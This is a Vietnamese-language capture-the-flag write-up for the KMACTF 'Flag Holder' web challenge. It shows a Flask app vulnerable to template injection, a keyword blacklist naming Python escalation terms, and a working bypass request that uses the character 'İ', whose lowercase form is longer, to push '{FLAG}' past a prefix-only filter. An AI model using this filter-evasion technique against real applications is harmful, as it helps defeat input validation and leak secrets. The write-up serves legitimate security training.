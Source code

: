 # Flag Holder

![image-20230619140718231](./assets/image-20230619140718231.png)

Hint: <a href="#" onclick="alert('Server-side Template Injection liệu có khả thi ??? Hay còn một cách nào khác ????? 🤔🤔🤔🤔🤔');">Hint 1</a> - <a href="#" onclick="alert('`if word in string.lower()[:MAX_LENGTH]:`');">Hint 2</a>

Giao diện trang web là một form điền template và variable tương ứng

![image-20230619141302970](./assets/image-20230619141302970.png)

Sau khi submit thì trả về một trang web render với template và variable đã điền

![image-20230619141343478](./assets/image-20230619141343478.png)

Challenge này cho mình source code ở `/source` (Ctrl + U ở trang đầu tiên là thấy)

```python
from flask import Flask, request, render_template_string, render_template, make_response
import os

app = Flask(__name__)
FLAG = os.getenv("FLAG") 
MAX_LENGTH = 20

def waf(string):
    blacklist = ["{{", "_", "'", "\"", "[", "]", "|", "eval", "os", "system", "env", "import", "builtins", "class", "flag", "mro", "base", "config", "query", "request", "attr", "set", "glob", "py"]
    for word in blacklist:
        if word in string.lower()[:MAX_LENGTH]:
            return False
    return True

@app.route('/')
def hello():
    return render_template("index.html")

@app.route("/render", methods = ["GET"])
def render():
    template = request.args.get("template")
    variable = request.args.get("variable")
    if len(template) == 0 or len(variable) == 0:
        return "Missing parameter required"
    if len(template) > MAX_LENGTH or len(variable) > MAX_LENGTH:
        return "Input too long"
    if not waf(template) or not waf(variable):
        return "Try harder broooo =)))"
    data = template.replace("{FLAG}", FLAG).replace("{variable}", variable)
    return render_template_string(data)

@app.route("/source", methods = ["GET", "POST"])
def source():
    response = make_response(open("./app.py", "r").read(), 200)
    response.mimetype = "text/plain"
    return response

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

Như trong source code đã cho thì mình thu thập được một vài thông tin, và mình dự đoán trang web này có lỗ hổng SSTI. 

Sau khi lấy dữ liệu từ các param thì chương trình có thực hiện một số bước kiểm tra

```python
	// kiểm tra độ dài > 0
	if len(template) == 0 or len(variable) == 0: 
        return "Missing parameter required"
    // đảm bảo độ dài của param <= 20
    if len(template) > MAX_LENGTH or len(variable) > MAX_LENGTH: 
        return "Input too long"
    // thực hiện kiểm tra qua hàm waf()
    if not waf(template) or not waf(variable):
        return "Try harder broooo =)))"
    // hàm waf()
    def waf(string):
        blacklist = ["{{", "_", "'", "\"", "[", "]", "|", "eval", "os", "system", "env", "import", "builtins", "class", "flag", "mro", "base", "config", "query", "request", "attr", "set", "glob", "py"]
        for word in blacklist:
            if word in string.lower()[:MAX_LENGTH]:
                return False
        return True
```

Có thể thấy trong hàm `waf()` đã blacklist kha khá các class và cả bao gồm chuỗi `flag` nữa. Mà độ dài của các param phải `0 < param <= 20` nên khá là khó để thực hiện SSTI

```python
    data = template.replace("{FLAG}", FLAG).replace("{variable}", variable)
    return render_template_string(data)
```

Sau khi kiểm tra đầu vào thì chương trình thực hiện replace `replace("{FLAG}", FLAG)` và `replace("{variable}", variable)`, nhưng mà `flag` đã bị blacklist rồi nên mình không thể render nó ra được

Mình đã mò một hồi khá lâu mà chỉ có thể trigger SSTI được như này thôi :). Vì độ dài này không đủ để cho mình thực hiện attack được :)

![image-20230619142533174](./assets/image-20230619142533174.png)

Sau khi Hint 1 được đưa ra thì mình đã bỏ qua trường hợp SSTI và chuyển hướng qua tìm bug khác ở trong bài này :D

Đọc kĩ từng dòng code và mình thấy dòng `if word in string.lower()[:MAX_LENGTH]:` là dòng có khả năng nhất thôi :DD. Liệu rằng... có một kí tự nào đó khi lower lại có độ dài > 1 hay không vì nó kiểm tra trong độ dài `[:20]`, trong trường hợp này nó sẽ bị tràn và khả năng không có kiểm tra được các kí tự ở cuối

Tìm kí tự này

```python
for i in range(10000):
    if len(chr(i).lower()) > 1:
        print(i)
// output: 304, kí tự này là: İ
```

URL encode và gửi request

```
GET /render?template=%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0{FLAG}&variable=longkd719 HTTP/1.1
Host: 103.163.25.143:20105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://103.163.25.143:20105/
Upgrade-Insecure-Requests: 1


```

Kết quả

![image-20230619143237535](./assets/image-20230619143237535.png)

`Flag: KMACTF{WAF_1s_s0_5tR0nG_BuT_pYth0n_1s_s0_H4rd}`
